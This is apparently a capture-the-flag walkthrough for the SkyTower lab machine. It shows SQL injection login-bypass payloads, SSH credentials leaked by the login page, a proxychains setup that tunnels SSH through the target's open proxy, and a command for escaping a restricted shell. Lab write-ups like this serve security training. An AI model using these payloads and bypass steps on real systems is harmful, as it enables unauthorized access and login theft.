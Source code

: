 Blind SQL : #1

username : ' oorr 1>0 #

Blind SQL : $2

username : '*'
password: ‘*'

We are logged in and we get the ssh credentials

Username: john
Password: hereisjohn

But the ssh port 22 is filtered
We have a proxy at 3128 open on the machine.

Change the proxychain settings on kali linux

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 192.168.56.105 3128
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[ProxyList]

Try to ssh to the server

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/skytower# proxychains ssh john@192.168.56.105
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.105:3128-<><>-192.168.56.105:22-<><>-OK
The authenticity of host '192.168.56.105 (192.168.56.105)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.105' (ECDSA) to the list of known hosts.
john@192.168.56.105's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 192.168.56.105 closed.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are not getting a regular shell.
Try to access with :proxychains ssh john@192.168.56.105 /bin/bash
